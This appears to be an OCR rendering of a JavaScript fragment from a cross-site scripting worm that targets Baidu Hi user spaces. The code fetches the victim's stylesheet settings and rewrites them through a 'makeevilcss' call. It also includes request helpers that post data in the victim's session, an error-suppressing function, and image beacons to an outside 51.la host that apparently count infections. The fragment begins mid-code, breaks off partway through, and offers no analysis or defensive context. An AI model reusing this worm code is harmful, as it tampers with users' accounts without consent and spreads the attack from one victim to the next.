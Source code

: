 ```
count();
hack();
}

function goteditcss() {
src="http://hi.baidu.com"+spaceid+"/modify/spcrtempl/0";
s=getmydata(src);
re = /\<link rel=\"stylesheet\" type=\"text\/css\"
href=\"(.*?)\/css\/item\/(.*?)\.css\">/i;
r = s.match(re);
nowuse=r[2];
makeevilcss(spaceid,"http://hi.baidu.com"+spaceid+"/modify/spcss/"+nowuse+".css/edit"
,1);
return 0;
}

function poster(){
var request = false;
if(window.XMLHttpRequest) {
request = new XMLHttpRequest();
if(request.overrideMimeType) {
request.overrideMimeType('text/xml');
}
} else if(window.ActiveXObject) {
var versions = ['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Microsoft.XMLHTTP',
'Msxml2.XMLHTTP.7.0', 'Msxml2.XMLHTTP.6.0', 'Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0',
'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
for(var i=0; i<versions.length; i++) {
try {
request = new ActiveXObject(versions[i]);
} catch(e) {}
}
}
return request;
}

function postmydata(action,data){
xmlhttp.open("POST", action, false);
xmlhttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xmlhttp.send(data);
 return xmlhttp.responseText;
}

function getmydata(action){
xmlhttp.open("GET", action, false);
xmlhttp.send();
 return xmlhttp.responseText;
}

function killErrors() {
 return true;
}

function count() {
 a=new Image();
 a.src='http://img.users.51.la/1563171.asp';
 return 0;
}

function online() {
 online=new Image();
 online.src='http://img.users.51.la/1563833.asp ';
 return 0;
```